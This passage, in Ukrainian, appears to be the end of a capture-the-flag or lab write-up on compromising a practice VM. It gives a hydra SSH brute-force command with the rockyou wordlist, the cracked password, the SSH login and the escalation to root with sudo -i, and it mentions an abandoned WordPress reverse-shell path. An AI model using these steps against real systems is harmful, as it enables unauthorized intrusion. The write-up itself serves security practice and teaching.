

## 7. Дослідження ssh

Робимо спробу брутфорса ssh, бо маємо логін користувача:

```sh
hydra 10.0.2.28 -t 4 -l togie -P /usr/share/wordlists/rockyou.txt ssh
```
### 7.1. Результати брутфорса



Отримали пароль: ``` [22][ssh] host: 10.0.2.28   login: togie   password: 12345``` <br>

### 7.2 Робимо логін через ssh
```sh
ssh togie@10.0.2.28
```
Маємо успішний вхід:


Перевіряємо дозволи:<br>

```sh
sudo -l
```


Бачимо, що адмін реально *LAZY*, тому просто переходимо на рута:

```sh
sudo -i
```
Досліджуємо домашню директорію рута та бачимо цікавий файл, виводимо його зміст:



Ми це зробили!

## 8. Напрями, де можна було втратити купу часу:

* **Злам сайту WordPress** та отримання зворотного шеллу (reverse shell) під користувачем `www-data`. Очевидно, що це було зайвим, оскільки можна було просто підключитися по SSH, використовуючи облікові дані, які були у файлі `deets.txt`.
* **Спроби різних варіантів** зі словами «Straya» та «yogibear», які були знайдені на сайті WordPress.
* **Пошуки** в phpMyAdmin за допомогою поцуплених облікових даних від бази даних WordPress.
